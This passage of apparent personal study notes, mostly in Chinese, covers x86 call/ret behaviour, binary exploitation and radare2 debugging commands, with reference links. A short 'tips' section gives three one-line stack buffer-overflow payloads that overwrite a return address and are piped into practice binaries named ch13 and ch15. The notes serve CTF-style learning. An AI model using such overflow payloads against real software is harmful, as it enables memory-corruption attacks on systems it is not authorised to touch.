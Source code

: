ret:
call会把call指令后面的一条指令的地址压入栈，ret就是把这个地址弹出到EIP，例如：

``` shell
=>0x80491c0 <main+46>: call   0x8049176 <say_hi>
  0x80491c5 <main+51>: add    esp,0x10
```
call会把0x80491c5压入栈，然后跳转到0x8049176，执行say_hi

## Binary exploitation
### ROP(Return Oriented Programming)[^8]
### tips
echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaa'
echo -n `python -c "print '0'*40+'\xef\xbe\xad\xde'"` | ./ch13
cat <(python -c "print 'A'*128+'\x16\x85\x04\x08\x0a\x0a'") -| ./ch15

# Radare2
## r2
### i
显示binary信息，具体可以查看`i?`，`ia`查看所有信息，

### d
> dcu main/address: stands for debug continue until main/address
在搜索的时候，你需要先运行程序到entry0，这样才会加载共享类库，否则你可能无法搜索共享库，例如libc
> dm  /  dm=  (ASCII-art bar)
打印当前程序的内存map
> dmm
Using dmm we can "List modules (libraries, binaries loaded in memory)", this is quite a handy command to see which modules were loaded.
> dmi <lib_name> symbol_name
查看共享类库symbol的加载地址
> drr
Show registers references (telescoping) (like peda)
> px/?  or  x/
类似gdb的x命令


### aaa/A & aaaa/AA (analysis)
分析binary文件，pdc/pdd/pdf之类的指令才能使用

### Visual Graph
可以通过VV进入调用图模式（需要先用aaa分析）
#### panel
panel替换用`"`, 同一panel，不同展现形式可以通过`i`切换

#### call跳转
function之间调整可以通过快捷字符，例如：
`call sys.imp.puts; [oa]`
这里你可以通过`oa`跳转到puts，返回用`u`键


[^1]: [stack frame for x86](https://www.cs.rutgers.edu/~pxk/419/notes/frames.html)
[^2]: [stack frame for x64](Stack frame layout on x86-64)
[^3]: [about ELF – PIE, PIC and else](https://codywu2010.wordpress.com/2014/11/29/about-elf-pie-pic-and-else/)
[^4]: [Load-time relocation of shared libraries](https://eli.thegreenplace.net/2011/08/25/load-time-relocation-of-shared-libraries)
[^5]: [Position Independent Code (PIC) in shared libraries on x64](https://eli.thegreenplace.net/2011/11/11/position-independent-code-pic-in-shared-libraries-on-x64)
[^6]: [Why is 0x00400000 the default base address for an executable?](https://blogs.msdn.microsoft.com/oldnewthing/20141003-00/?p=43923)
[^7]: [what is the stack](https://ctf101.org/binary-exploitation/what-is-the-stack/)
[^8]: [Return Oriented Programming](https://ctf101.org/binary-exploitation/return-oriented-programming/)
[^9]: [A journey into Radare 2 – Part 2: Exploitation](https://www.megabeets.net/a-journey-into-radare-2-part-2/)
